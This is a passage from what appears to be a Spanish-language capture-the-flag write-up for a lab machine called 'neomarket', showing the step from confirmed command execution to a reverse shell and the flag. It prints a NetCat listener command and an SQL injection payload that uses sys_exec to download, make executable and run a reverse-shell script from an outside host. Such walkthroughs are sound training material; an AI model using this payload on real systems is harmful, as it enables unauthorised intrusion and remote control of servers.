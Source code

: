 Tras habernos puesto previamente en escucha de paquetes **ICMP**, veremos que recibimos un `ping` de la máquina víctima.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250223145310.png>)

Una vez que hemos comprobado que tenemos ejecución remota de comandos (**RCE**), nos enviaremos una **Reverse Shell**. En primer lugar, nos pondremos en escucha con **NetCat** (`nc -nlvp 443`) y como `curl` no está instalado, debemos de enviarnos la **Reverse Shell** con `wget` o con un `base64 -d`. En definitiva, debemos de ejecutar el siguiente payload.

```java
id=1' union select 1,2,sys_exec("wget 192.168.26.10/rev.sh -O /tmp/rev.sh; chmod 777 /tmp/rev.sh; /tmp/rev.sh")-- -&cantidad=1&buy_articulo=Comprar
```

Tal y como vemos a continuación, recibimos correctamente la **Reverse Shell**, por lo que habremos ganado acceso a la máquina víctima.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250223145648.png>)

Finalmente, lo que debemos de hacer es leer la `flag.txt`.

![](<../assets/images/posts/2025-03-19-neomarket/Pasted image 20250223145731.png>)